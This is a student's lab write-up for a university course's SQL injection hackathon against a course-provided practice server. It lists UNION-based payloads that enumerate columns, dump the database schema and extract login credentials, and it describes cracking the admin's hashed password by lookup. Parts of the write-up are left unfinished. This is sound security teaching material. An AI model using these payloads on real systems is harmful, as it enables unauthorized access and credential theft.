# WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Sophia Munoz

**Email**: [mailto:munozsa@mail.uc.edu](munozsa@mail.uc.edu)


# Hackathon 2 - SQL Injection Attacks

## The Lab's Overview

For Hackathon 2,

Outcomes I learned from this hackathon were 

Hackathon2 Folder: [https://github.com/munozsophia/waph-munozsa/tree/main/hackathons/hackathon2](https://github.com/munozsophia/waph-munozsa/tree/main/hackathons/hackathon2).

### Level 0


*Level 0 SQLi Injection*


*Level 0 Login Success*

### Level 1

Back-End Code Guess:

```php
$sql = 'SELECT * FROM users WHERE username="' . $username . '" AND password=md5("' . $password . '")';
```


*Level 1 SQLi Injection*


*Level 1 Login Success*

### Level 2

#### a. Detecting SQLi Vulnerabilities

I added a `'` to the `product.php` page for the apple product link [https://waph-hackathon.eastus.cloudapp.azure.com/sqli/level2/product.php?id=1'](https://waph-hackathon.eastus.cloudapp.azure.com/sqli/level2/product.php?id=1'), making it return the fatal error seen in the image below.


*Level 2a Fatal Error*

#### b. Read and Display Data from Database

##### i. Identify Number of Columns and Display Each Column on the Page

The Back-End SQLi code is potentially:

```php
SELECT * FROM products WHERE id=$id
```

Or potentially:

```php
SELECT col1,col2,col3 FROM products WHERE id=$id
```

From guessing the number of columns, I would get the fatal error below as the number of columns guessed was incorrect.


*Level 2b Fatal Error*

Once the correct number of columns was guessed, **three**, the page loaded correctly. I injected `product.php?id=1 UNION SELECT 1,2,3-- -` to the URL.


*Level 2b Column Guessed*

##### ii. Display Information on the Page

To display my information nice and cleanly I set id=0 to suppress the original product results as shown below injecting `product.php?id=0 UNION SELECT "Hacked by munozsa", "Sophia Munoz","WAPH-01"`


*Level 2b Info Displayed*

##### iii. Display the Database Schema

I injected `product.php?id=0 UNION SELECT table_name,column_name,3 FROM information_schema.columns-- -` to display the database schema below.


*Level 2b Database Schema*

##### iv. Display Login Credentials in Database and Reveal in Plaintext

- Identify the table and its columns that store username/password to login to the system

I injected `product.php?id=0 UNION SELECT table_name,column_name,3 FROM information_schema.columns WHERE table_name="login"-- -` since I identified the **`login`** table. Within the table, there are two columns, **`loginname`** and **`password`**.


*Level 2b Login Credentials*

- Construct the SQLi code to display all usernames/passwords stored in the database \(Your University's username must be also displayed in the injected queries)

I used the SQLi code to inject in the URL: `product.php?id=0 UNION SELECT loginname,password,"munozsa" FROM login-- -`


*Level 2b Display Usernames/Passwords*

- Reveal the password values

Using the Most Popular Passwords site, I `Ctrl-F` the hashed password for the user `admin`, which was `qwerty`.


*Level 2b Hashed Password*

#### c. Login to the system with the stolen username/password


*Level 2c Hashed Password*